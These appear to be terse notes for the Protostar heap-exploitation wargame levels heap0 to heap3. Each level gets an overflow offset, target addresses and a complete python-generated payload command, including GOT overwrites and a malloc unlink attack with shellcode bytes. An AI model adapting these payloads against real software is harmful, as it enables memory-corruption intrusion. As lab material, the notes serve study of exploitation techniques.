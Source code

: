 # Protostar heap-overflow notes

I've noticed that a lot of well documented writeups are present for protostar and decided to instaad post a cliff-notes version for this and upcoming ones. A bunch of useful [References](#references)

### Heap \#0
Generated good ol' string using pattern_create for 140
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5A6

gbb shows segfault at 0x41346341 which is 72

attack payload: 

	./heap0 `python -c 'print "A" * 72 + "\x64\x84\x04\x08"'`

use ` not ' . **huge difference!!**

### Heap \#1
Did overflow with pattern_create
exact match at 20
Winner location at 0x08048494

Basically there is a printf funnction after strcpy but kept as puts
overwrite with GoT table address and then and point to winner()

put address is 08049774

	./heap1 `python -c "print 'A' * 20 + '\x74\x97\x04\x08' +' ' + '\x94\x84\x04\x08'"`

overwrite the address of argv[2] with GoT table's jump to puts(). Then second strcpy call will move address of winner() and overwrite the puts address
when printf is called we get winner

### Heap \#2

differene between auth and service is 0x10 or 16 bytes.
if u do serviceXXXXXXXXXXXXXXXXX [which x= 17 bytes] u get overflow and get int auth initialized to a specific value X. Then the check will pass.

Another way is use after free

### Heap \#3
FOLLOW DOUG MALLOC articles
In gdb:  

	r AAA `python -c 'print "B"*32 + "\xfc\xff\xff\xff" + "\xf0"'` CCCCDDDDEEEE
Now we can see that after B we overflow next chunk wiht fc which is basically previous chunk size of -4 and kept f0 which means chunk is in use.

Seg fault when trying to copy edx into eax  

	mov eax+12,edx  
	DDDD <<< EEEEE

0x804b128 - 0xc = 0x804b11c  for puts function address which has been adjusted to compensate for assembly

Final Payload:
    
    ./heap3 `python -c 'print "AAAA" + "\xeb\x06" + "\x90"*6 + "\x68\x64\x88\x04\x08\xc3"'` `python -c 'print "B"*16 + "\x01"*4 + "\xff"*4 + "B"*8 + "\xfc\xff\xff\xff" + "\xf0\xff\xff\xff"'` `python -c 'print "CCCC"+"\x1c\xb1\x04\x08"+"\x08\xc0\x04\x08"'`

## References

